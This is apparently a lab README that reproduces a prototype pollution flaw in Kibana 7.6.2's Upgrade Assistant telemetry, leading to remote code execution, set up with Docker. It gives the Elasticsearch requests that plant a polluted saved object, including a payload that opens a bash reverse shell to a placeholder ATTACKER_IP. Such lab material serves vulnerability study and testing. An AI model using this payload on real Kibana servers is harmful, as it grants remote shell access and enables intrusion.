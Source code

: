 # Kibana 7.6.2 upgrade-assistant-telemetry Prototype Pollution Leads to RCE

[中文版本(Chinese version)](README.zh-cn.md)

Kibana is an open source data visualization dashboard for Elasticsearch.

Kibana versions prior to 7.6.3 suffer from a prototype pollution vulnerability in the Upgrade Assistant feature. By assigning a new value to `constructor.prototype.sourceURL`, arbitrary code execution becomes possible. The payload can be triggered either by sending data directly to Elasticsearch or by submitting queries through Kibana. Both methods result in Kibana reading the polluted prototype.

Execution occurs either after Kibana is restarted or when data collection takes place (at an unknown time). To restore functionality after the payload executes, the `.kibana_1` index must be deleted before restarting Kibana. Once a callback is received, cleanup is performed automatically, allowing Kibana to restart successfully.

References:

- https://hackerone.com/reports/852613

## Setup

Start Kibana 7.6.2 and Elasticsearch 7.6.2 using Docker:

```bash
docker compose up -d
```

Once the environment is running, Kibana will be accessible at `http://your-ip:5601`.

## Vulnerability Reproduction

The prototype pollution occurs in the Upgrade Assistant's `upgrade-assistant-telemetry`. This vulnerability can be exploited by providing a specially crafted `upgrade-assistant-telemetry` saved object.

1. Update Kibana Mappings: Modify Kibana mappings to allow the custom `upgrade-assistant-telemetry` document. The full mapping must be provided to avoid startup validation errors.

    ```json
    PUT /.kibana_1/_mappings
    {
    "properties": {
        "upgrade-assistant-telemetry": {
        "properties": {
            "constructor": {
            "properties": {
                "prototype": {
                "properties": {
                    "sourceURL": {
                    "type": "text",
                    "fields": {
                        "keyword": {
                        "type": "keyword",
                        "ignore_above": 256
                        }
                    }
                    }
                }
                }
            }
            },
            "features": {
            "properties": {
                "deprecation_logging": {
                "properties": {
                    "enabled": {
                    "type": "boolean",
                    "null_value": true
                    }
                }
                }
            }
            },
            "ui_open": {
            "properties": {
                "cluster": {
                "type": "long",
                "null_value": 0
                },
                "indices": {
                "type": "long",
                "null_value": 0
                },
                "overview": {
                "type": "long",
                "null_value": 0
                }
            }
            },
            "ui_reindex": {
            "properties": {
                "close": {
                "type": "long",
                "null_value": 0
                },
                "open": {
                "type": "long",
                "null_value": 0
                },
                "start": {
                "type": "long",
                "null_value": 0
                },
                "stop": {
                "type": "long",
                "null_value": 0
                }
            }
            }
        }
        }
    }
    }
    ```

2. Index the Payload Document: Use the following request to inject the malicious telemetry document.

    ```json
    PUT /.kibana_1/_doc/upgrade-assistant-telemetry:upgrade-assistant-telemetry
    {
        "upgrade-assistant-telemetry" : {
        "ui_open.overview" : 1,
        "ui_open.cluster" : 1,
        "ui_open.indices" : 1,
        "constructor.prototype.sourceURL": "\u2028\u2029\nglobal.process.mainModule.require('child_process').exec('/bin/bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1')"
        },
        "type" : "upgrade-assistant-telemetry",
        "updated_at" : "2020-04-17T20:47:40.800Z"
    }
    ```

    ![update kibana mappings](1.png)

    Note: This payload pollutes the prototype, injecting JavaScript code that spawns a reverse shell.The code can be customized. For example, `...exec('touch /tmp/rce')`.

3. Trigger Payload Execution: Wait for data collection to occur or manually restart Kibana ( `docker restart KIBANA_CONTAINER_ID` or `docker compose restart`). Kibana will attempt to start, execute the payload, crash, and restart in a loop.

    ![index doc status](2.png)
